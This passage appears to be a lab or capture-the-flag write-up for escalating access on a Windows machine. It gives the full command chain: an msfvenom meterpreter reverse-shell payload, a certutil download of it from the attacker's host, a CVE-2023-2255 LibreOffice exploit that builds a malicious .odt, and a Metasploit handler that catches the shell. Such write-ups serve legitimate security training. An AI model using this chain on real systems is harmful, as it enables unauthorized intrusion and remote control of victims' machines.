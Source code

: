 
Performing enumeration on the `web_account` host, i found out that there was an outdated Libre Office version in which we can confirm through the `readme_en-US.txt` file located under `C:\Program Files\LibreOffice 5\readmes`


![](https://i.imgur.com/BYCtG5U.png)


Checking google i found a suitable exploit


![](https://i.imgur.com/VfyKra0.png)


First of all generate another `shell.exe` file and transfer to target directory under `C:\users\public\` (make sure to use the `web_account` target to do this)

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.199 LPORT=5656 -f exe -o shell.exe
```

![](https://i.imgur.com/DrupGlo.png)

Transfer file to target

```
certutil.exe -urlcache -split -f http://10.10.14.199/shell.exe shell.exe
```


![](https://i.imgur.com/ZPk14M1.png)


Then download the Libre office exploit from [here](https://github.com/elweth-sec/CVE-2023-2255)


![](https://i.imgur.com/4MqN1qv.png)


Then create a `.odt` file with the tool

```
❯ python3 CVE-2023-2255.py --cmd "c:\users\public\shell.exe" --output whatever.odt
```

![](https://i.imgur.com/ZjRdsqX.png)


Then transfer the file `whatever.odt` to `C:\xampp\htdocs\internal\applications\`


![](https://i.imgur.com/52vIsCn.png)



Now get meterpreter shell as user `ppots`

```bash
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost 10.10.14.199
set lport 5656
exploit
```
